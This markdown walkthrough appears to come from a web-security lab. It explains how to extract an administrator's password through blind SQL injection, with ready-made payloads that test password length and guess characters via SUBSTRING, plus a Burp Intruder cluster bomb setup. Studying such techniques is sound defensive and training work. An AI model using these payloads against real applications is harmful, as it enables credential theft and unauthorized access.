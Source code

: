 ### Blind SQL Injection for Password Enumeration (Cluster Bomb Method)

#### **Objective**

Extract the `administrator` password using blind SQL injection. The app responds with "Welcome back" for `true` conditions and no message for `false`.

---

### **Methodology**

1. **Determine Password Length**:
    
    - Use a binary narrowing approach:
        
        ```sql
        ' AND (SELECT LENGTH(password) FROM users WHERE username = 'administrator') < 30 --;
        ```
        
    - Gradually decrease the value until it evaluates to `false`. Confirm with:
        
        ```sql
        ' AND (SELECT LENGTH(password) FROM users WHERE username = 'administrator') = 20 --;
        ```
        
    - **Result**: Password is **20 characters long**.
2. **Enumerate Characters**:
    
    - Use `SUBSTRING` to test each position:
        
        ```sql
        ' AND (SELECT SUBSTRING(password, §{position}§, 1) FROM users WHERE username = 'administrator') = '§{character}§' --;
        ```
        
    - Test all positions (`1-20`) and characters (`0-9`, `a-z`) to find matches.
3. **Automate with Cluster Bomb**:
    
    - **Payload Set 1**: Password positions (`1-20`).
    - **Payload Set 2**: Potential characters (`0-9`, `a-z`).
    - Observe responses and look for "Welcome back" to identify correct guesses.

---

### **Key Payloads**

- **Check Length**:
    
    ```sql
    ' AND (SELECT LENGTH(password) FROM users WHERE username = 'administrator') = 20 --;
    ```
    
- **Guess Characters**:
    
    ```sql
    ' AND (SELECT SUBSTRING(password, §{position}§, 1) FROM users WHERE username = 'administrator') = '§{character}§' --;
    ```
    

---

### **Cluster Bomb Strategy**

1. Place positional markers in the payload (`§position§` and `§character§`).
2. Configure Burp Intruder:
    - **Set 1**: Positions (`1-20`).
    - **Set 2**: Characters (`0-9`, `a-z`).
3. Run the attack and filter responses to identify successful guesses.

**Example Output**:

- Position `1`: `'a'`
- Position `2`: `'b'`
- Full password: `'abc123xyz...'`

---

This method ensures efficient and systematic password extraction with clear results.